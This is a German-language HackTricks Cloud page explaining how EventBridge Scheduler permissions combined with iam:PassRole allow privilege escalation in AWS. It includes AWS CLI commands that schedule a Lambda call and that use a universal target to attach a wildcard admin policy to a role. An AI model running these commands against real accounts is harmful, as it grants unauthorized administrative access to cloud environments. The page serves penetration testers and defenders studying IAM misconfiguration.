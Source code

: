 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler kann zur Privilegieneskalation verwendet werden, indem Anrufe an verschiedene AWS-Dienste geplant werden. Durch die Nutzung der Fähigkeit, Dienste planmäßig aufzurufen, können Benutzer mit ausreichenden Berechtigungen Privilegien eskalieren. Hier sind einige der wichtigsten Aktionen, die EventBridge Scheduler mit vorgefertigten Zielen auslösen kann:

- Lambda: lambda:InvokeFunction - Lambda-Funktionen nach einem Zeitplan aufrufen.
- CodeBuild: codebuild:StartBuild - AWS CodeBuild-Projekte starten.
- CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipeline-Ausführungen auslösen.
- ECS: ecs:RunTask - ECS-Aufgaben ausführen.
- EventBridge: events:PutEvents - Ereignisse in EventBridge einfügen.
- Inspector: inspector:StartAssessmentRun - Amazon Inspector-Bewertungen starten.
- Kinesis: kinesis:PutRecord - Datensätze in Kinesis-Streams einfügen.
- Firehose: firehose:PutRecord - Datensätze in Firehose-Lieferstreams einfügen.
- SageMaker: sagemaker:StartPipelineExecution - SageMaker-Pipeline-Ausführungen starten.
- SNS: sns:Publish - Nachrichten an SNS-Themen veröffentlichen.
- SQS: sqs:SendMessage - Nachrichten an SQS-Warteschlangen senden.
- Step Functions: states:StartExecution - Ausführungen von AWS Step Functions starten.

Dies sind nur einige der vorgefertigten Aktionen, die EventBridge Scheduler ausführen kann. Durch die Verwendung universeller Ziele können jedoch viele andere Aktionen in AWS-Diensten aufgerufen werden. Universelle Ziele ermöglichen umfangreichere API-Operationen über die vorgefertigte Liste hinaus.

Weitere Informationen zu EventBridge Scheduler finden Sie in:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `sts:AssumeRole`, `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

Benutzer mit den Berechtigungen `sts:AssumeRole`, `iam:PassRole` und `scheduler:CreateSchedule oder scheduler:UpdateSchedule` können Privilegien eskalieren, indem sie den EventBridge Scheduler nutzen, um Dienste mit einer Rolle mit höheren Privilegien aufzurufen.

Mit diesen Berechtigungen kann ein Angreifer eine Rolle mit erhöhten Privilegien annehmen und diese Rolle an den EventBridge Scheduler übergeben, wenn er einen Zeitplan erstellt oder aktualisiert. Der Zeitplan kann so konfiguriert werden, dass er eine der zuvor aufgeführten Aktionen ausführt, wie z. B. das Aufrufen von Lambda-Funktionen, das Starten von ECS-Aufgaben, das Auslösen von CodePipeline-Ausführungen oder jede Operation der 270 AWS-Dienste, die vom EventBridge Scheduler unterstützt werden. Durch die Planung dieser Aktionen könnte ein Angreifer höhere Privilegien missbrauchen, um unbefugte Operationen in AWS-Diensten durchzuführen.
\\

Zum Beispiel könnten sie den Zeitplan so konfigurieren, dass er eine Lambda-Funktion aufruft, die eine vorgefertigte Aktion ist:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
Zusätzlich zu den vorgefertigten Dienstaktionen können Sie universelle Ziele im EventBridge Scheduler verwenden, um eine Vielzahl von API-Operationen für viele AWS-Dienste aufzurufen. Universelle Ziele bieten die Flexibilität, fast jede API aufzurufen. Ein Beispiel kann die Verwendung universeller Ziele sein, um "AdminAccessPolicy" hinzuzufügen, indem eine Rolle verwendet wird, die die "putRolePolicy"-Richtlinie hat:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## Referenzen

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
